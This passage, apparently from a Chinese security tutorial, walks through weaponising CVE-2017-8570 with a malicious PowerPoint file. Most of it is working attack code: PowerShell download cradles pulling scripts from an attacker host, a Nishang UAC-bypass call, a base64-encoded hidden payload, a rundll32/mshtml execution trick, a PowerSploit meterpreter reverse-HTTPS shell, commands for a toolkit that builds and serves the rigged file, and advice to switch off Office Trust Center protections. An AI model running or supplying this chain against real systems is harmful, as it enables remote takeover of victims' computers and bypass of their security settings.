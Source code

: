 换掉原来 exp 里面的 Powershell 调用语句，其中 uacchm.ps1 的内容是：

```
IEX (New-Object System.Net.WebClient).DownloadString('
http://10.101.101.16/nishang/Escalation/Invoke-PsUACme.ps1'
;)
Invoke-PsUACme -method oobe -Payload 'powershell -win hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwADEALgAxADAAMQAuADEANgAvAGMAaABtAC4AcABzADEAJwApAA=='
Start-Process -FilePath rundll32.exe -ArgumentList 'javascript:"..mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("C:/Windows/System32/oobe/setupsqm.exe",0,true);self.close();'
```

而其中enc后面的数据是经过下面的代码编码而成：  

```
$command = "IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.16/chm.ps1')"
;
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand
```

编码的内容：



```
IEX (New-Object System.Net.WebClient).DownloadString('http://10.101.101.16/chm.ps1';)
chm.ps1：
IEX (New-Object System.Net.WebClient).DownloadString("http://10.101.101.16/powersploit/CodeExecution/Invoke-Shellcode.ps1";); Invoke-Shellcode -payload windows/meterpreter/reverse_https -lhost 10.101.101.16 -lport 7777 -force
```

改好的 exp [https://github.com/niexinming/safe_tool/blob/master/cve-2017-8570_toolkit.py](https://github.com/niexinming/safe_tool/blob/master/cve-2017-8570_toolkit.py)  ，用法是：先生成一个恶意的ppsx

```
python cve-2017-8570_toolkit.py -M gen -w car.ppsx -u 
http://10.101.101.16:82/logo.doc
```

在 82 端口开启服务：

```
python cve-2017-8570_toolkit.py -p 82 -M exp -e 10.101.101.16
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h0am5kog21gy0q61kx.gif)

Ps: 好多时候这个漏洞复现不成功，可以将查看 文件 -&gt; 选项，点击 信任中心设置，去掉设置中的所有勾取选项即可：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h0pg358j20nl0j177l.jpg)
